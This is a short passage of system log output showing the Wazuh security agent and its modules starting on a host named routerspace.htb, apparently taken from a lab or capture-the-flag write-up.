             ├─3931 /var/ossec/bin/wazuh-modulesd
             └─4211 iptables -L

Nov 30 08:04:03 routerspace.htb systemd[1]: Starting Wazuh agent...
Nov 30 08:04:03 routerspace.htb env[3850]: Starting Wazuh v4.14.1...
Nov 30 08:04:03 routerspace.htb env[3850]: Started wazuh-execd...
Nov 30 08:04:04 routerspace.htb env[3850]: Started wazuh-agentd...
Nov 30 08:04:04 routerspace.htb env[3850]: Started wazuh-syscheckd...
Nov 30 08:04:05 routerspace.htb env[3850]: Started wazuh-logcollector...
Nov 30 08:04:05 routerspace.htb env[3850]: Started wazuh-modulesd...
Nov 30 08:04:07 routerspace.htb env[3850]: Completed.
Nov 30 08:04:07 routerspace.htb systemd[1]: Started Wazuh agent.
```


